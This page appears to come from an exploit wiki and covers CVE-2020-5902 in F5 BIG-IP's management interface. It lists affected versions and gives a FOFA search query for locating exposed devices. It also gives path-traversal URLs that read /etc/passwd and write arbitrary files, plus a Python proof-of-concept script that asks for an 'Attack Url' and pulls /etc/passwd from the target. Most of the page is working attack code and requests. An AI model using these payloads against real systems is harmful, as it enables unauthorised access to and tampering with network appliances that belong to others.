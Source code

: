 <languages />

Воздействие уязвимости
----------------------

    F5 BIG-IP 15.x: 15.1.0.4

    F5 BIG-IP 14.x: 14.1.2.6

    F5 BIG-IP 13.x: 13.1.3.4

    F5 BIG-IP 12.x: 12.1.5.2

    F5 BIG-IP 11.x: 11.6.5.2

FOFA
----

    title="BIG-IP&reg ;- Redirect"

Эксплуатация
------------

### Прочитать файл

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

### Записать файл

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

    POST: fileName=/tmp/test.txt&content=test

POC
---

    import requests
    import sys
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Accept-Language":"zh-CN,zh;q=0.9",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
            if "output" in response.text:
                print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
            else:
                print("\033[31m[x] 目标漏洞无法利用 \033[0m")

        except Exception as e:
            print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
            sys.exit(0)


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

Ссылка
------

<https://short.pwnwiki.org/?c=Kum2Ch>